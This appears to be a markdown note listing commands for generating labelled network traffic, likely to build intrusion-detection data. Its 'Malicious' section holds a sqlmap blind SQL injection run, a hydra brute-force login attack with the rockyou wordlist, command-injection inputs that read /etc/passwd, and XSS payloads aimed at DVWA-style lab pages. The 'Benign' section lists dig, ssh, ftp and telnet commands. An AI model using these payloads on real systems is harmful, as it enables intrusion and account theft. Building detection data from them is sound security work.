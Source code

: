 # Malicious

## sql blind injection

```
sqlmap \
-v 2 \
--level=1 \
--risk=1 \
--cookie="PHPSESSID=5ctsc0me25bvodumgphrutgm2h; security=low" \
--url "http://target.com/vulnerabilities/sqli_blind/?id=101&Submit=Submit"
```

## brute force

```
hydra target.com -l admin -P /usr/share/wordlists/rockyou.txt.gz http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=5ctsc0me25bvodumgphrutgm2h; security=low:Username and/or password incorrect."
```

## Command injection

```
127.0.0.1; ls
127.0.0.1; whoami
127.0.0.1; cat /etc/passwd
```

## XSS

- DOM

```
http://target.com/vulnerabilities/xss_d/?default=%3Cscript%3Ealert(document.cookie)%3C/script%3E
```

- Reflected
  ```<script>alert('test')</script>```

- Stored (same as above)

# Benign

## DNS

`dig www.metropolia.fi`

## Browsing

just browsing

## SSH

`ssh {ip_address}`

## FTP

- `ftp username:password@ftp://ftp.dlptest.com/`
- `ls`
- `pwd`
- `quit`

### Telnet

`telnet telehack.com`
